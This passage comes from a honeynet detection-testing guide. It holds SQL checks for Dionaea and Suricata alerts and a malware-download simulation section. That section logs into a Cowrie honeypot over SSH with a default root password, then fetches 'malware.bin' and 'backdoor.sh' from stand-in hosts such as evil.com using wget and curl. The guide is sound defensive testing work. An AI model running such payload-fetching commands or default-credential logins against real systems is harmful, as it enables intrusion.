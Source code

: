 #### Verification

```sql
-- Check Dionaea HTTP events with exploit flag
SELECT timestamp, src_ip, method, url, user_agent, is_exploit, exploit_type
FROM honeynet.honeypot_events
WHERE protocol = 'http'
  AND timestamp >= now() - INTERVAL 5 MINUTE
  AND (is_exploit = '1' OR exploit_type != '')
ORDER BY timestamp DESC;

-- Check Suricata Shellshock alerts
SELECT timestamp, signature, alert_metadata
FROM honeynet.ids_alerts
WHERE signature_id IN (2000008, 2000009, 1000021)
  AND timestamp >= now() - INTERVAL 5 MINUTE;
```

---

### 4. Malware Download Simulation

**Objective**: Test malware download detection and file capture.

**Expected Detections**:
- Dionaea: File download logged in `downloaded_files`
- Suricata: Alert SID `2000027` (Suspicious binary download)
- File hash captured for analysis

#### Simulate wget Download

```bash
# First, establish SSH session to Cowrie
sshpass -p 'password' ssh root@$HONEYPOT_HOST

# In Cowrie shell, execute
wget http://malicious.example.com/malware.bin
curl -O http://evil.com/backdoor.sh
exit
```

#### Direct HTTP Download to Dionaea

```bash
# Upload binary to trigger detection
curl -X POST -F "file=@/bin/ls" http://$HONEYPOT_HOST:80/upload

# Or simulate malware GET request
curl http://$HONEYPOT_HOST:80/malware.exe -o /dev/null
```

#### Verification

```sql
-- Check downloaded files
SELECT timestamp, filename, file_hash, file_size, source_ip_hash
FROM honeynet.downloaded_files
WHERE timestamp >= now() - INTERVAL 10 MINUTE
ORDER BY timestamp DESC;

-- Check file stored on disk
-- Files saved to: data/dionaea/binaries/<sha256>
```

---